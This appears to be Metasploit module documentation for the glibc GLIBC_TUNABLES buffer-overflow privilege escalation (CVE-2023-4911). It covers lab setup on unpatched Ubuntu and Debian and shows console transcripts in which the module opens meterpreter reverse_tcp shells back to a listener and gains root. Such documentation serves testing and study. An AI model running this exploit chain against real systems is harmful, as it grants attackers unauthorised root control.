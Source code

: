 ## Vulnerable Application

A buffer overflow was exists in the GNU C Library's dynamic loader ld.so while processing the GLIBC_TUNABLES environment
variable. This issue allows an local attacker to use maliciously crafted GLIBC_TUNABLES environment variables when
launching binaries with SUID permission to execute code in the context of the root user. 

This module targets glibc packaged on Ubuntu and Debian. The specific versions this module targets are:

Ubuntu:
2.35-0ubuntu3.4 > 2.35
2.37-0ubuntu2.1 > 2.37
2.38-1ubuntu6 > 2.38

Debian: 
2.31-13-deb11u7 > 2.31
2.36-9-deb12u3 > 2.36

Fedora 37 and 38 and other distributions of linux also come packaged with versions of glibc vulnerable to CVE-2023-4911
however this module does not target them.  

### Description

The GLIBC_TUNABLES environment variable is parsed in a loop and is expected to be provided in the following format:
`tunable1=aaa:tunable2=bbb`. If the variable is sent in the following format: `tunable1=tunable2=AAA` due to the
absence of the tunable delimiter `:` in the string, the value `tunable2=AAA` is handled incorrectly and results in a
buffer overflow.

### Setup

Install [Ubuntu 22.04.3](https://releases.ubuntu.com/jammy/ubuntu-22.04.3-desktop-amd64.iso) while ensuring the VM does 
not have internet access. 

Once booted up, edit `/etc/apt/apt.conf.d/20auto-upgrades` and change `APT::Periodic::Unattended-Upgrade` from `1` to
`0` to ensure to ensure the machine doesn't patch itself.

Ensure that glibc is at version 2.35-0ubuntu3.1 by running the following:
```
msfuser@msfuser-virtual-machine:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
The target should be exploitable.

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/linux/local/glibc_tunables_priv_esc`
4. Do: `set SESSION [SESSION]`
5. Do: `check`
6. Do: `run`
7. You should get a new *root* session

## Scenarios

### Ubuntu 22.04.3 with 2.35-0ubuntu3.1 installed (ARCH_X64)
```
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set session -1
session => -1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf6 exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf6 exploit(linux/local/glibc_tunables_priv_esc) > run

View the full module info with the info, or info -d command.

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.35-0ubuntu3.1) found on the target appears to be vulnerable
[+] The Build ID for ld.so: 61ef896a699bb1c2e4e231642b2e1688b2f1a61e is in the list of supported Build IDs for the exploit.
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.228
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.228:33016) at 2023-12-19 10:53:09 -0500

meterpreter >getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.123.228
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```

### Debian 12 with 2.36-9-deb12u1 installed (ARCH_X64)
```
msf6 exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.36-9+deb12u1) found on the target appears to be vulnerable
[+] The Build ID for ld.so: a99db3715218b641780b04323e4ae5953d68a927 is in the list of supported Build IDs for the exploit.
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.229
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.229:50370) at 2023-12-19 12:21:34 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : debian.test.com
OS           : Debian 12.1 (Linux 6.1.0-10-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
